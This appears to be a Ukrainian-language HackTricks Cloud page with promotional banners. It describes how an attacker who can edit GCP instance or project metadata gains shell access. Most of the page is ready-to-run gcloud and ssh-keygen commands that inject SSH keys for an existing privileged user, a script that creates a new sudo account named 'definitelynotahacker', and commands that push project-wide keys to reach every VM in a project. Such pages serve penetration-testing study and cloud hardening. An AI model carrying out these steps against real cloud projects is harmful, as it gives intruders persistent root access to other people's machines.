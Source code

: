 # GCP - Додати користувацькі SSH метадані

## GCP - Додати користувацькі SSH метадані

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Модифікація метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Модифікація метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

#### **Включення SSH ключів у користувацькі метадані**

На GCP, **Linux системи** часто виконують скрипти з [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом цього є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих SSH публічних ключів**.

Отже, якщо зловмисник може модифікувати користувацькі метадані, він може змусити демон знайти новий публічний ключ, який буде оброблений і **інтегрований у локальну систему**. Ключ буде додано до файлу `~/.ssh/authorized_keys` **існуючого користувача або потенційно створити нового користувача з привілеями `sudo`**, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

#### **Додати SSH ключ до існуючого привілейованого користувача**

1. **Перевірте існуючі SSH ключі на екземплярі:**
*   Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH ключі. Відповідний розділ у виході буде під `metadata`, зокрема ключ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Зверніть увагу на формат SSH ключів: ім'я користувача передує ключу, розділене двокрапкою.
2. **Підготуйте текстовий файл для метаданих SSH ключа:**
* Збережіть деталі імен користувачів та їх відповідних SSH ключів у текстовому файлі з назвою `meta.txt`. Це важливо для збереження існуючих ключів під час додавання нових.
3. **Згенеруйте новий SSH ключ для цільового користувача (`alice` у цьому прикладі):**
*   Використовуйте команду `ssh-keygen` для генерації нового SSH ключа, переконавшись, що поле коментаря (`-C`) відповідає цільовому імені користувача.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Додайте новий публічний ключ до `meta.txt`, імітуючи формат, знайдений у метаданих екземпляра.
4. **Оновіть метадані SSH ключа екземпляра:**
*   Застосуйте оновлені метадані SSH ключа до екземпляра, використовуючи команду `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Отримайте доступ до екземпляра, використовуючи новий SSH ключ:**
*   Підключіться до екземпляра за допомогою SSH, використовуючи новий ключ, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Створіть нового привілейованого користувача та додайте SSH ключ**

Якщо не знайдено цікавого користувача, можна створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH для кількох віртуальних машин (VM) у хмарному середовищі, **застосувавши SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра в проекті, який не заблокував SSH ключі на рівні проекту. Ось узагальнений посібник:

1. **Застосуйте SSH ключі на рівні проекту:**
*   Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія забезпечує визнання SSH ключів на всіх VM у проекті, якщо тільки VM не має увімкненої опції "Блокувати SSH ключі на рівні проекту".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH до екземплярів, використовуючи ключі на рівні проекту:**
* З ключами на рівні проекту ви можете підключитися до будь-якого екземпляра в проекті. Екземпляри, які не блокують ключі на рівні проекту, приймуть SSH ключ, надаючи доступ.
* Прямий спосіб підключитися до екземпляра - це використання команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.

## Посилання

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
